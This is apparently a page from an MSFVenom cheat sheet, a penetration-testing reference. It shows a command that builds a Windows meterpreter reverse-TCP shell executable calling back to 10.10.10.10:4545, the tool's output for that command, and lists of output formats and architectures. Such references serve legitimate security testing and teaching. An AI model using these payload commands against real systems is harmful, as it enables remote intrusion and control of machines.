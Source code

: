 ```
    raw
    rb
    ruby
    sh
    vbapplication
    vbscript
```

# **Output Payload Architecture**

You can specify the framework architecture for the payload using the **archs** available in this MSFVenom cheat sheet. Use **-a** to specify the arch for the output payload.

```
$msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
 Payload size: 341 bytes
Final size of exe file: 73802 bytes

```

# **List all the archs**

```
$msfvenom --list archs

Framework Architectures [--arch ]
========================================

    Name
    ----
    aarch64
    armbe
    armle
    cbea
    cbea64
    cmd
    dalvik
    firefox
    java
    mips
    mips64
    mips64le
    mipsbe
    mipsle
    nodejs
    php
    ppc
    ppc64
    ppc64le
    ppce500v2
    python
    r
    ruby
    sparc
    sparc64
    tty
    x64
    x86
    x86_64
    zarch
```